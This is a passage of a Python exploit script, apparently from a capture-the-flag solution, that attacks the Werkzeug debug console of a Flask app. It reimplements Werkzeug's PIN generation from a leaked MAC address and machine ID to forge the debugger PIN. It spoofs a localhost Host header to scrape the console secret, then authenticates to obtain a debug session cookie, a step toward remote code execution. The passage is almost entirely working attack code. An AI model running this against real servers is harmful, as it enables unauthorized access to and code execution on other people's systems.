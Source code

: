 ```python
    global machine_id
    machine_id = r.text.strip().encode()
    print(f"[*] Get machine ID successfully: {machine_id}")

def get_pin():
    def get_pin_and_cookie_name() -> tuple[str, str] | tuple[None, None]:
        rv = None
        num = None
        modname = 'flask.app'
        username: str | None
        mod = 'flask.app'
        probably_public_bits = [
            'nobody',
            modname,
            'Flask',
            '/usr/local/lib/python3.11/site-packages/flask/app.py',
        ]
        private_bits = [mac_address, machine_id]
        h = hashlib.sha1()
        for bit in chain(probably_public_bits, private_bits):
            if not bit:
                continue
            if isinstance(bit, str):
                bit = bit.encode()
            h.update(bit)
        h.update(b"cookiesalt")
        cookie_name = f"__wzd{h.hexdigest()[:20]}"
        if num is None:
            h.update(b"pinsalt")
            num = f"{int(h.hexdigest(), 16):09d}"[:9]
        if rv is None:
            for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                    rv = "-".join(
                        num[x : x + group_size].rjust(group_size, "0")
                        for x in range(0, len(num), group_size)
                    )
                    break
            else:
                rv = num
        return rv, cookie_name
    global pin
    pin = get_pin_and_cookie_name()[0]
    print(f"[*] Get PIN successfully: {pin}")
    
def get_debug_secret():
    r = session.get(URL + "console", headers={"Host":"127.0.0.1"})
    m = re.findall(r'SECRET\s*=\s*"([^"]+)"', r.text)
    # print(m)
    global secret
    secret = m[0]
    print(f"[*] Get debug secret successfully: {secret}")

def get_debug_session():
    r = session.get(URL + f"console?__debugger__=yes&cmd=pinauth&pin={pin}&s={secret}", headers={"Host":"127.0.0.1"})
    raw_cookie = r.headers['Set-Cookie']
    cookie_pair = raw_cookie.split(";", 1)[0]
    name, value = cookie_pair.split("=", 1)
    cookie_json = {name: value}
    global debug_session
    debug_session = cookie_json
    print(f"[*] Get debug session successfully")
```